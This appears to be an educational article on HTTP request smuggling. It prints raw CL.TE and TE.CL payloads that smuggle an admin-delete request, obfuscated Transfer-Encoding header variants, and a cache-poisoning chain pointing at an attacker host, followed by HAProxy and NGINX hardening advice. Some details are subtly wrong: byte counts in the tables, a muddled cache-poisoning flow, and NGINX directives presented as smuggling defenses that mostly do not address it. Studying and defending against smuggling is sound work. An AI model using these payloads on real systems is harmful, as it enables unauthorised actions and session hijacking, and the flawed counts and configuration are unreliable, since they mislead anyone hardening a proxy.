


# HTTP Request Smuggling and Desync Attacks: Bypassing WAFs and Reverse Proxies

> Unpack the mechanics of HTTP/1.1 request desynchronization, dissect the byte-level parsing discrepancies between reverse proxies and backends, and master the architecture-level defenses to shield connection pools from hijacking and cache poisoning.

---

## What We Are Going to Learn

In this deep-dive guide, we will step into the role of a **Principal AppSec Engineer**. We will systematically analyze the vulnerabilities that arise when modern HTTP intermediaries disagree on where a request starts and ends. You will learn to:
1. **Dissect the Keep-Alive Connection Pooling Mechanism** that proxies use to optimize backend throughput.
2. **Examine the RFC 7230 Ambiguities** governing the coexistence of the `Content-Length` and `Transfer-Encoding` headers.
3. **Trace the Execution Flow of CL.TE, TE.CL, and TE.TE Attacks** showing how smuggled requests poison sockets.
4. **Perform a Byte-by-Byte Payload Audit**, calculating hex chunk sizes, chunked encoding boundaries, and carriage returns (`\r\n`).
5. **Analyze Advanced Exploitation Vectors**, including WAF bypasses, cache poisoning, and credential hijacking.
6. **Deploy Production-Ready Mitigations**, including HTTP/2-only transport, strict proxy validation rules, and NGINX/HAProxy hardening parameters.

---

## The Problem: The Keep-Alive Multiplexing Discrepancy

In modern enterprise web architectures, client requests do not go directly to the application server. Instead, they flow through a chain of intermediaries: Content Delivery Networks (CDNs), Web Application Firewalls (WAFs), and reverse proxies (such as NGINX, HAProxy, AWS ALB, or Envoy).

To optimize performance and avoid the latency of establishing a new TCP handshake for every client request, reverse proxies employ a technique called **HTTP Connection Pooling** (also known as Keep-Alive Reuse). The proxy maintains a pool of persistent, open TCP sockets to the backend server. It takes incoming HTTP requests from hundreds of different client TCP connections and multiplexes (streams) them sequentially over this single persistent backend socket:

```
CLIENTS                              REVERSE PROXY (WAF/CDN)                  BACKEND SERVER
Client A (TCP Conn 1) --Request A--> [                     ]
Client B (TCP Conn 2) --Request B--> [  Connection Pool    ] --Stream A + B + C--> [ App Server ]
Client C (TCP Conn 3) --Request C--> [                     ]   (Persistent TCP Socket)
```

The underlying security assumption of this architecture is that **both the proxy and the backend agree exactly where each HTTP request begins and ends**. 

If this agreement fails, the boundary between distinct requests collapses. If the proxy believes Request A ends at byte 250, but the backend believes Request A ends at byte 200, the remaining 50 bytes of Request A are not parsed as part of Request A by the backend. Instead, those 50 bytes are left sitting in the backend’s socket buffer.

When the backend receives Request B (from an entirely different, innocent user), it reads the poisoned socket buffer. The 50 leftover bytes from the attacker's Request A are prepended to the innocent user's Request B. **The backend parses this hybrid chunk as a single request**, completely subverting trust boundaries and session isolation:

```
1. Attacker sends Smuggled Request (marked as 'S'):
PROXY: Parses full payload [Request A + S], sends it to Backend.
BACKEND: Parses only [Request A], leaves [S] in the TCP socket receive buffer.

                        Backend TCP Socket Buffer:
                        +----------------------------+
                        |  [Smuggled Request S]      |  <-- Leftover from Attacker
                        +----------------------------+

2. Innocent User sends Request B:
PROXY: Forwards [Request B] over the same persistent socket.
BACKEND: Reads buffer, prepends [S] to [Request B], producing [S + Request B].

                        Backend TCP Socket Buffer:
                        +----------------------------+
                        |  [S][Request B]            |  <-- Parsed as a single request!
                        +----------------------------+
```
This enables the attacker to hijack the innocent user's session, capture cookies, steal API tokens, bypass authentication controls, or execute administrative commands under the context of the next victim.

---

## Why the Problem Is Hard: Legacy Ambiguity and Socket Reuse

Request Smuggling is not a software bug or a simple coding mistake; it is a **systemic design flaw** stemming from the protocol specification of HTTP/1.1 (RFC 7230).

HTTP/1.1 provides two distinct, competing mechanisms to define the length of an HTTP message body:
1. **`Content-Length` (CL):** Explicitly states the exact size of the payload body in decimal bytes (e.g., `Content-Length: 42`).
2. **`Transfer-Encoding: chunked` (TE):** Sets a dynamic framing format where the body is sent in a series of chunks. Each chunk begins with its size in hexadecimal bytes, followed by a carriage return and line feed (`\r\n`), then the chunk data, and finally `\r\n`. The stream is terminated with a zero-length chunk (`0\r\n\r\n`).

If an HTTP request contains *both* headers, a critical ambiguity is introduced. According to RFC 7230, section 3.3.3:
> "If a message is received with both a Transfer-Encoding header field and a Content-Length header field, the Transfer-Encoding overrides the Content-Length."

However, because many legacy web servers, custom enterprise application servers, and historical CGI gateways do not support chunked encoding, or fail to implement the RFC override rule strictly, they fall back to parsing the `Content-Length` header.

This difference in parsing priorities creates the vulnerability:
- **Server 1 (Proxy):** Prioritizes `Transfer-Encoding` (interpreting the request as chunked).
- **Server 2 (Backend):** Prioritizes `Content-Length` (interpreting the request as a static byte stream).
- **Result:** The physical boundary of the HTTP transaction is broken, and a desynchronization (Desync) attack is unlocked.

---

## A Simple Mental Model: The Shared Conveyor Belt

Think of the proxy-backend persistent TCP socket as a **conveyor belt** in a cargo warehouse, where multiple customers' packages are lined up in sequence.

```
                                 CONVEYOR BELT (TCP Socket)
         ------------------------------------------------------------------------
User B's Cargo: [   Request B    ]  <-- Attacker's Cargo: [ Smuggled S ][ Request A ]
         ------------------------------------------------------------------------
```

* **The Proxy (Warehouse Inspector A):** Uses a scanning laser that measures packages by **weight** (e.g., `Transfer-Encoding`). It identifies the Attacker's package as one large combined unit (`[Request A + Smuggled S]`) and places it onto the belt.
* **The Backend (Warehouse Inspector B):** Uses a scanning laser that measures packages by **length** (e.g., `Content-Length`). It scans the belt but only cuts off the belt at the length of `[Request A]`.
* **The Leftover:** The extra part of the box (`[Smuggled S]`) remains on the conveyor belt, uninspected.
* **The Collision:** When the next customer's package (`[Request B]`) arrives, it is placed immediately behind the leftover. The backend merges `[Smuggled S]` and `[Request B]`, believing they are a single cargo container.

The next user's cargo is ruined (hijacked) because the warehouse handlers failed to agree on the measurement standard.

---

## Under the Hood: The Core Desync Dynamics

HTTP Request Smuggling attacks are classified based on which server uses which header to determine request boundaries.



### 1. CL.TE Smuggling
In a CL.TE attack, the front-end proxy processes the `Content-Length` header, and the back-end application server processes the `Transfer-Encoding` header.

* **Proxy Behavior:** The proxy sees the `Content-Length` header. It reads the specified number of bytes from the client and forwards the entire payload to the backend over the persistent connection.
* **Backend Behavior:** The backend server sees the `Transfer-Encoding: chunked` header. It ignores `Content-Length` and parses the message body as chunked encoding. It processes the first chunk, encounters a zero-length chunk (`0\r\n\r\n`), and stops parsing. Any remaining bytes following the terminating chunk are left untouched in the TCP socket receive buffer.

### 2. TE.CL Smuggling
In a TE.CL attack, the front-end proxy processes the `Transfer-Encoding` header, and the back-end application server processes the `Content-Length` header.

* **Proxy Behavior:** The proxy reads the incoming chunked stream. It stops when it encounters the termination chunk (`0\r\n\r\n`) and forwards the parsed data to the backend.
* **Backend Behavior:** The backend reads only the number of bytes specified in the `Content-Length` header. Because the attacker sets the `Content-Length` to a small value (only covering the initial request header and the first chunk line), the backend stops parsing early, leaving the remaining data (the smuggled request) in the socket queue.

### 3. TE.TE Smuggling
In a TE.TE attack, both the front-end and back-end servers support chunked encoding, but the attacker obfuscated the `Transfer-Encoding` header in such a way that only one of the servers recognizes it, while the other falls back to `Content-Length`.

Examples of header obfuscation techniques:
```http
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: identity

X: X\r\nTransfer-Encoding: chunked

Transfer-Encoding: [tab]chunked
```

If the proxy handles the obfuscation and parses chunked, but the backend rejects/ignores it and falls back to `Content-Length`, this behaves as a **TE.CL** exploit. Conversely, if the proxy ignores the obfuscated header and uses `Content-Length` but the backend recognizes it and uses `Transfer-Encoding`, it becomes a **CL.TE** exploit.

---

## Attack Flow: Socket Poisoning and Response Hijacking

Let's map out the step-by-step mechanics of a request smuggling session-hijacking attack. This flow traces how an attacker's smuggled fragment intercepts the session context of the next victim.



### Steps of the Attack Loop:
1. **Smuggling Ingestion:** The attacker issues a maliciously crafted HTTP request containing both `Content-Length` and `Transfer-Encoding` headers. The request body contains a complete smuggled request (e.g., `/admin/delete`) appended after the terminal chunk marker (`0\r\n\r\n`).
2. **Intermediate Multiplexing:** The reverse proxy processes the outer request, forwards the entire payload (including the smuggled section) to the backend server, and marks the connection as free to receive subsequent requests.
3. **Queue Poisoning:** The backend parses only the chunked portion of the request, replies to the attacker, and leaves the smuggled request raw bytes sitting in the shared backend socket receive buffer.
4. **Victim Collision:** The victim issues a normal request (e.g., `GET /index`). The proxy maps this request to the persistent connection and streams it to the backend.
5. **Concatenation and Parse:** The backend server reads the poisoned socket buffer. It matches the smuggled header fragment directly with the incoming victim's header block.
6. **Authorization Takeover:** The backend executes the smuggled request using the victim's authentication parameters (cookies, Bearer tokens, or IP whitelist context), returning the response corresponding to the smuggled request to the victim.

---

## Hands-on Analysis: Byte-Level Smuggling Payload Audits

To successfully trigger a desync, the attacker must align every single carriage return (`\r\n`) and payload length descriptor with surgical precision. Even a single-byte error will result in a connection timeout or a `400 Bad Request` parser error.

### 1. The CL.TE Smuggling Payload
In this scenario, the front-end proxy processes the `Content-Length` header, and the back-end application server processes the `Transfer-Encoding` header.

#### Raw HTTP Request
```http
POST / HTTP/1.1\r\n
Host: vulnerable-app.com\r\n
Content-Length: 87\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
POST /admin/delete?user=victim HTTP/1.1\r\n
Host: localhost\r\n
Content-Length: 10\r\n
\r\n
x=
```

#### Byte-by-Byte Structural Breakdown

| Payload Component | Text Representation | Byte Count | Explanation |
| :--- | :--- | :--- | :--- |
| **Request Header Line** | `POST / HTTP/1.1\r\n` | 16 bytes | Target endpoint on front-end proxy. |
| **Host Header** | `Host: vulnerable-app.com\r\n` | 27 bytes | Virtual host definition. |
| **Content-Length Header**| `Content-Length: 87\r\n` | 20 bytes | Tells proxy to forward exactly **87 bytes** of body. |
| **Transfer-Encoding** | `Transfer-Encoding: chunked\r\n` | 28 bytes | Ignored by proxy, processed by backend. |
| **End of Headers** | `\r\n` | 2 bytes | Double CRLF separating headers from body. |
| **Chunk Marker** | `0\r\n` | 3 bytes | Hex representation of the first chunk size (0 bytes). |
| **Chunk Terminator** | `\r\n` | 2 bytes | Tells backend the chunked body is completed. |
| **Smuggled Request Line**| `POST /admin/delete?user=victim HTTP/1.1\r\n` | 41 bytes | Start of smuggled request left in socket buffer. |
| **Smuggled Host Header** | `Host: localhost\r\n` | 17 bytes | Host header for the smuggled destination. |
| **Smuggled CL Header** | `Content-Length: 10\r\n` | 20 bytes | Tells backend to read the next victim's request headers as the body (up to 10 bytes). |
| **Smuggled End Headers** | `\r\n` | 2 bytes | Double CRLF for the smuggled request. |
| **Smuggled Body Prefix** | `x=` | 2 bytes | Parameter key to swallow the victim's request. |

**Total Payload Body size:** `3 (0\r\n) + 2 (\r\n) + 41 (GET/admin...) + 17 (Host...) + 20 (CL...) + 2 (\r\n) + 2 (x=) = 87 bytes`. 

This matches the `Content-Length: 87` header perfectly.

---

### 2. The TE.CL Smuggling Payload
In this scenario, the front-end proxy processes the `Transfer-Encoding` header, and the back-end application server processes the `Content-Length` header.

#### Raw HTTP Request
```http
POST / HTTP/1.1\r\n
Host: vulnerable-app.com\r\n
Content-Length: 4\r\n
Transfer-Encoding: chunked\r\n
\r\n
52\r\n
POST /admin/delete?user=victim HTTP/1.1\r\n
Host: localhost\r\n
Content-Length: 10\r\n
\r\n
x=\r\n
0\r\n
\r\n
```

#### Byte-by-Byte Structural Breakdown

| Payload Component | Text Representation | Byte Count | Explanation |
| :--- | :--- | :--- | :--- |
| **Header Blocks** | *(Including Host, CL: 4, TE: chunked)* | — | Standard headers. |
| **Body Start Line** | `52\r\n` | 4 bytes | Hex length of the chunk: **52 hex = 82 decimal bytes**. |
| **Smuggled payload** | `POST /admin/...x=` | 82 bytes | Exactly 82 bytes containing the smuggled request headers. |
| **Chunk End Marker** | `\r\n` | 2 bytes | Ends the 82-byte chunk. |
| **Termination Chunk** | `0\r\n` | 3 bytes | Declares the final chunk. |
| **Final Blank Line** | `\r\n` | 2 bytes | Terminates the chunked payload structure. |

#### Why this causes Desync:
1. **The Proxy** parses the body as chunked. It reads `52` (82 bytes), skips the CRLF, reads `0`, and stops. It forwards all **93 bytes** of the body (`4 + 82 + 2 + 3 + 2 = 93 bytes`) to the backend.
2. **The Backend** parses only the `Content-Length: 4` header. It reads exactly the first 4 bytes of the body: `5`, `2`, `\r`, `\n`. It considers these 4 bytes as the entire request body!
3. The remaining **89 bytes** containing the smuggled `POST /admin/delete` request are left dangling in the socket connection queue, ready to hijack the next incoming request.

---

## Expert Insights: WAF Bypasses and Cache Poisoning

Request Smuggling is a high-risk security hazard because it targets infrastructure trust assumptions rather than application endpoints.

### 1. Web Application Firewall (WAF) Bypass Mechanics
Traditional Web Application Firewalls (such as AWS WAF, Cloudflare, or ModSecurity) act as reverse proxies, inspecting HTTP payloads for dangerous patterns before routing traffic.

Because WAFs parse incoming requests as standalone entities, they analyze the outer wrapper request. In a CL.TE or TE.CL attack:
* The WAF processes the headers and sees a completely harmless `POST /` request.
* The WAF is unaware of the backend's desynchronized parser.
* The smuggled block (`POST /admin/delete`) is hidden within the request body. To the WAF, this is just arbitrary binary/text POST payload.
* The backend parses the smuggled block as a secondary, distinct request, executing arbitrary endpoints (such as SQLi, RCE, or administrative API calls) while bypassing the WAF's routing rules completely.

```
                    WAF FILTER LAYER
                           |
            [ Scans: POST / HTTP/1.1 -> OK ]
                           |
                           v
                    BACKEND PARSER
                           |
            [ Parses: POST / HTTP/1.1 ] -> Done
            [ Parses: POST /admin/delete ] -> EXECUTED! (Bypasses WAF completely)
```

---

### 2. Devious Cache Poisoning Vectors
By combining Request Smuggling with CDN cache rules, an attacker can hijack static assets and poison them globally for all users.

```mermaid
graph TD
    Attacker[Attacker] -- Smuggled Request to poison cache --> CDN[CDN Cache Node]
    CDN -- Request routed --> Backend[Backend Server]
    Backend -- Returns Redirection Payload --> CDN
    Note over CDN: CDN associates the Attacker's Redirection<br/>with the static /static/logo.png file!
    Victim[Victim User] -- Requests /static/logo.png --> CDN
    CDN -- Serves cached Malicious Redirect --> Victim
```

#### Step-by-Step Cache Poisoning Chain:
1. **The Poison Request:** The attacker smuggles a request targeting a static file, followed by a second request to a redirect page controlled by the attacker:
   ```http
   GET /static/logo.png HTTP/1.1
   Host: vulnerable-app.com
   ...
   GET /attacker-controlled-site/malicious.js HTTP/1.1
   Host: attacker.com
   ```
2. **Desync Alignment:** The backend matches the smuggled request (`GET /attacker-controlled-site...`) with the CDN's concurrent cache-fill request for `/static/logo.png`.
3. **Response Interception:** The backend application server issues a `302 Redirect` to the attacker's site in response to the static asset request.
4. **Cache Storage:** The CDN receives the `302 Redirect` response and stores it in its cache under the key `/static/logo.png`.
5. **Universal Defacement:** From this point forward, every single user requesting the application's logo is redirected to the attacker's server, enabling massive drive-by downloads or credential phishing campaigns.

---

## Architectural Defenses: Hardening the Proxy-Backend Chain

Mitigating request desynchronization requires systematic, defense-in-depth engineering controls at the transport and application layers. Vague configurations are highly vulnerable.

```mermaid
graph LR
    subgraph Weak Architecture (Vulnerable)
        Client1[Client] -->|HTTP/1.1| Proxy1[Proxy]
        Proxy1 -->|HTTP/1.1 Keep-Alive Pool| Backend1[Backend]
    end
    subgraph Hardened Architecture (Secure)
        Client2[Client] -->|HTTP/2 or HTTP/3| Proxy2[Proxy]
        Proxy2 -->|HTTP/2 End-to-End| Backend2[Backend]
    end
```

### 1. Mandate HTTP/2 or HTTP/3 Transport End-to-End
The single most effective defense against request smuggling is migrating away from HTTP/1.1's raw text framing.
* **Why it works:** HTTP/2 and HTTP/3 use a strictly typed binary framing layer. Each request is designated a specific Stream ID. Length is determined by binary frame metadata, completely eliminating the parsing ambiguity of `Content-Length` vs `Transfer-Encoding`.
* **Action:** Enable HTTP/2 not just between the client and proxy, but also **from the proxy to the backend application servers**.

---

### 2. Force Strict Header Validation on Reverse Proxies
Configure intermediaries to actively reject malformed and ambiguous header combinations.
* **Reject Duplicate Headers:** Terminate connections immediately if they contain multiple `Content-Length` headers or invalid characters in `Transfer-Encoding`.
* **Drop Obfuscated Headers:** Ensure proxies sanitize incoming HTTP headers and drop requests that fail to match strict RFC specifications.

#### HAProxy Hardening Rules
Ensure HAProxy enforces strict HTTP validation and drops ambiguous requests by adding the following parameters to the `frontend` or `defaults` block:

```haproxy
defaults
    mode http
    # Enable strict HTTP/1.1 RFC compliance parsing
    option http-use-htx
    # Drop connections attempting header obfuscation
    http-request deny if { req_hdr_cnt(content-length) gt 1 }
    http-request deny if { req_hdr_cnt(transfer-encoding) gt 0 } and { req_hdr_cnt(content-length) gt 0 }
```

---

### 3. hard NGINX Configuration Parameters
NGINX provides default configurations to sanitize headers. Ensure they are enabled and hardened:

```nginx
http {
    # Mandate strict compliance for request parsing
    subrequest_output_buffer_size 16k;
    
    # Enforce strict parsing of header fields (off disables invalid headers)
    ignore_invalid_headers on;
    
    # Disable fallback to Content-Length when mixed headers are present
    # NGINX by default rejects multiple Content-Length headers with a 400 error.
    client_header_buffer_size 1k;
    large_client_header_buffers 4 8k;
}
```

---

### 4. Mitigate with Connection Pool Isolation
If end-to-end HTTP/2 is not feasible due to backend framework limitations, you can mitigate socket poisoning by separating connection contexts.
* **Disable TCP Keep-Alive Pooling:** Configure the reverse proxy to establish a **new TCP connection** to the backend for every incoming client connection.
* **Trade-off:** This introduces CPU and latency overhead due to repeated TCP handshakes, but it makes request smuggling fundamentally impossible because the persistent "conveyor belt" shared socket is removed.

---

## Technical Summary Checklist

* [ ] **HTTP/2 End-to-End:** Enforced binary multiplexing from Edge CDN down to backend application microservices.
* [ ] **RFC 7230 Compliance:** Proxy configured to return `400 Bad Request` if a client request contains both `Content-Length` and `Transfer-Encoding` headers.
* [ ] **Header Normalization:** Proxy strips whitespace between header keys and values (e.g., rejecting `Transfer-Encoding : chunked`).
* [ ] **Obfuscation Drop:** WAF block-list rules configured to detect and drop modified transfer-encoding descriptors.
* [ ] **Immutable Cache Keys:** CDN caching rules hardened to exclude HTTP bodies from matching static asset cache keys.
* [ ] **Isolated Backend Pools:** Backend keep-alive connection reuse disabled for ultra-sensitive trust boundaries (e.g., payment, auth services).
